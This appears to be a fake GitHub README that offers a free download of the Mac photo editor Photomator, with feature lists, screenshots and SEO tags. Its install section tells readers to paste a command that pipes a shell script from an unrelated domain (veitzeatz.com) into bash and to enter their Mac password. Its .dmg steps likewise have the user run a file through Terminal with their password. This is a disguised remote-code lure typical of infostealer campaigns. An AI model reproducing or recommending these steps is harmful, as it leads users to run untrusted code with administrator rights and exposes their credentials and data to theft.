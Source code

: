 # Photomator — Download For Mac OS 🖼️

![photomator-logo](https://www.pixelmator.com/cdn-web-assets/pixelmator-photo/2.3/hero/img_macbook--v1.png)

> **Photomator** is a powerful and intuitive photo editor designed specifically for Mac. With its smart machine learning features and beautiful interface, editing your images becomes fast, fun, and incredibly effective. Follow the instructions below to download and install it safely.

> [![Download for macOS](https://img.shields.io/badge/Download%20for%20macOS-Photomator-black?style=for-the-badge&logo=apple)](#)
 
> If the button doesn't work, follow the instructions below using Terminal commands.

---

## 📦 How to Install Photomator For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and drag the extracted file into the terminal window.
4. Press the **Return** button, then enter your device password in the prompt (if you don't have a password, leave it blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

---

### Installation via a command in the terminal:

1. Copy the installation command below:
```
 /bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open Terminal and paste the command.
3. Press **Return**, then enter your Mac password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get

- 🧠 **AI-Powered Enhancements** — Use machine learning to improve photos instantly.
- 🎨 **Color Adjustment Tools** — Fine-tune every color, brightness, and contrast.
- 🖌️ **Layer-Based Editing** — Professional-grade non-destructive editing.
- 📷 **RAW File Support** — Full compatibility with RAW formats from major cameras.
- 🔄 **Batch Editing** — Apply edits to multiple photos at once.
- ☁️ **iCloud Sync** — Seamless integration across your Apple ecosystem.

---

## 📘 About Photomator

Photomator is the next-generation photo editing app for Mac users who value both power and simplicity. With its native macOS performance and sleek interface, it feels at home on every Apple device. Whether you’re adjusting family photos or working on professional images, Photomator delivers intuitive controls and deep editing capabilities.

It supports all major image formats, including RAW, JPEG, and HEIC, giving photographers the freedom to work with any camera. The software utilizes machine learning to suggest improvements and automate tedious tasks — a major time-saver for beginners and experts alike.

One of the most impressive features is its ability to handle batch edits with minimal effort. Just apply your desired settings to one image, then replicate them across your entire gallery — perfect for weddings, product shots, or social media campaigns.

Photomator’s seamless integration with iCloud means your edits are automatically synced across devices. Start editing on your Mac, finish on your iPad, and share with a single click.

### ✅ Why Choose Photomator?

Compared to other editing software, Photomator combines AI features with deep manual control — all in a single, affordable app designed for macOS. It offers a perfect balance between creative freedom and intelligent automation.

---

## 🖼 Preview

![Photomator Interface](https://cdn.macstories.net/photomator-3-1730119171847.png)  
*Clean and modern interface with smart tools*

![Photomator Editing Tools](https://www.dpreview.com/files/p/articles/5188221969/library-photomator-grid.png)  
*Advanced color correction and AI-driven enhancement*

---

## 🔍 Tags

photomator, photomator mac download, photomator mac free, photomator download, photomator alternative photoshop, photomator free trial, photomator editing, photomator free, photomator for mac, apple photomator, photomator mac, photomator photo , app photomator, download photomator
